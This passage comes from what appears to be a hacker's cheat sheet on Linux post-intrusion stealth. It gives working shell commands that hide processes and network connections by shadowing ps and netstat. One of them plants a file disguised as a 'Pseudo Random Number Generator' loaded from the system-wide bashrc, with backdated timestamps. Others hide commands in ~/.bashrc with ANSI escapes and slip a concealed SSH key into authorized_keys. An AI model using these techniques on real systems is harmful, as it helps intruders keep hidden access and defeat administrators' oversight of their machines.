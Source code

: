 ```sh
```

To hide a command use:
```sh
hide                                 # Hides the current shell/PID
hide 31337                           # Hides process with pid 31337
hide sleep 1234                      # Hides 'sleep 1234'
hide nohup sleep 1234 &>/dev/null &  # Starts and hides 'sleep 1234' as a background process
```

(thanks to *druichi* for improving this)

<a id="hide-scripts"></a>
**1.vii. Hide shell scripts**

Above we discussed how to obfuscate a line in ~/.bashrc. An often used trick is to use `source` instead. The source command can be shortened to `.` (yes, a dot) _and_ it also searches through the $PATH variable to find the file to load.

In this example our script ```prng``` contains all of our shell functions from above. Those functions hide the `nmap` process and the network connection. Last we add `. prng` into the systemwide rc file. This will load `prng` when the user (and root) logs in:

```shell
echo -e 'netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }
ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap  -e GREP; }' >/usr/bin/prng \
&& echo ". prng #Initialize Pseudo Random Number Generator" >>/etc/bash.bashrc \
&& touch -r /etc/ld.so.conf /usr/bin/prng /etc/bash.bashrc
```

(The same works for `lsof`, `ss` and `ls`)

<a id="cat"></a>
**1.viii. Hide from cat**

ANSI escape characters or a simple `\r` ([carriage return](https://www.hahwul.com/2019/01/23/php-hidden-webshell-with-carriage/)) can be used to hide from `cat` and others.

Hide the last command (example: `id`) in `~/.bashrc`:
```sh
echo -e "id #\\033[2K\\033[1A" >>~/.bashrc
### The ANSI escape sequence \\033[2K erases the line. The next sequence \\033[1A
### moves the cursor 1 line up.
### The '#' after the command 'id' is a comment and is needed so that bash still
### executes the 'id' but ignores the two ANSI escape sequences.
```
Note: We use `echo -e` to convert `\\033` to the ANSI escape character (hex 0x1b).

Adding a `\r` (carriage return) goes a long way to hide your ssh key from `cat`:
```shell
echo "ssh-ed25519 AAAAOurPublicKeyHere....blah x@y"$'\r'"$(<authorized_keys)" >authorized_keys
### This adds our key as the first key and 'cat authorized_keys' wont show
### it. The $'\r' is a bash special to create a \r (carriage return).
```

<a id="parallel"></a>
**1.ix. Execute in parallel with separate logfiles***
